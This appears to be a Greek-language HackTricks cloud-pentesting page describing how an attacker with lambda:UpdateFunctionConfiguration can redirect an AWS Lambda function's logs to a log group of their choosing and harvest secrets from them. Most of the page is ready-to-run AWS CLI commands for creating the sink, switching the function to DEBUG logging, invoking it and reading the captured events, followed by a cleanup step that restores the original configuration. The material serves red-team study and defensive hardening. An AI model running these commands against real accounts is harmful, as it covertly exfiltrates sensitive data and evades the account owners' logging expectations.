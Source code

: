 # AWS Lambda – Log Siphon via LoggingConfig.LogGroup Redirection

{{#include ../../../../banners/hacktricks-training.md}}

Εκμεταλλευτείτε το `lambda:UpdateFunctionConfiguration` για να χρησιμοποιήσετε τις προηγμένες ρυθμίσεις logging και να ανακατευθύνετε τα logs μιας function σε ένα CloudWatch Logs log group που έχει επιλέξει ο επιτιθέμενος. Αυτό λειτουργεί χωρίς να αλλάξει ο code ή ο execution role (οι περισσότερες Lambda roles περιλαμβάνουν ήδη `logs:CreateLogGroup/CreateLogStream/PutLogEvents` μέσω του `AWSLambdaBasicExecutionRole`). Αν η function εκτυπώνει secrets/request bodies ή καταρρέει με stack traces, μπορείτε να τα συλλέξετε από το νέο log group.

## Απαιτούμενα δικαιώματα
- lambda:UpdateFunctionConfiguration
- lambda:GetFunctionConfiguration
- lambda:InvokeFunction (ή βασιστείτε σε υπάρχοντες triggers)
- logs:CreateLogGroup (συχνά δεν απαιτείται αν ο ρόλος της function το έχει)
- logs:FilterLogEvents (για ανάγνωση events)

## Βήματα
1) Δημιουργήστε ένα sink log group
```
aws logs create-log-group --log-group-name "/aws/hacktricks/ht-log-sink" --region us-east-1 || true
```
2) Ανακατεύθυνση των logs της στοχευόμενης function
```
aws lambda update-function-configuration \
--function-name <TARGET_FN> \
--logging-config LogGroup=/aws/hacktricks/ht-log-sink,LogFormat=JSON,ApplicationLogLevel=DEBUG \
--region us-east-1
```
Περιμένετε μέχρι το `LastUpdateStatus` να γίνει `Successful`:
```
aws lambda get-function-configuration --function-name <TARGET_FN> \
--query LastUpdateStatus --output text
```
3) Εκτέλεση και ανάγνωση από το sink
```
aws lambda invoke --function-name <TARGET_FN> /tmp/out.json --payload '{"ht":"log"}' --region us-east-1 >/dev/null
sleep 5
aws logs filter-log-events --log-group-name "/aws/hacktricks/ht-log-sink" --limit 50 --region us-east-1 --query 'events[].message' --output text
```
## Επιπτώσεις
- Κρυφά ανακατευθύνετε όλα τα αρχεία καταγραφής εφαρμογών/συστήματος σε ένα log group που ελέγχετε, παρακάμπτοντας την προσδοκία ότι τα logs καταλήγουν μόνο στο `/aws/lambda/<fn>`.
- Εξάγετε ευαίσθητα δεδομένα που εκτυπώνονται από τη συνάρτηση ή εμφανίζονται σε σφάλματα.

## Καθαρισμός
```
aws lambda update-function-configuration --function-name <TARGET_FN> \
--logging-config LogGroup=/aws/lambda/<TARGET_FN>,LogFormat=Text,ApplicationLogLevel=INFO \
--region us-east-1 || true
```
## Notes
- Οι ρυθμίσεις καταγραφής είναι μέρος του `LoggingConfig` του Lambda (LogGroup, LogFormat, ApplicationLogLevel, SystemLogLevel).
- Από προεπιλογή, το Lambda στέλνει logs στο `/aws/lambda/<function>`, αλλά μπορείτε να δείξετε σε οποιοδήποτε log group name; το Lambda (ή ο ρόλος εκτέλεσης) θα το δημιουργήσει εάν επιτρέπεται.

{{#include ../../../../banners/hacktricks-training.md}}
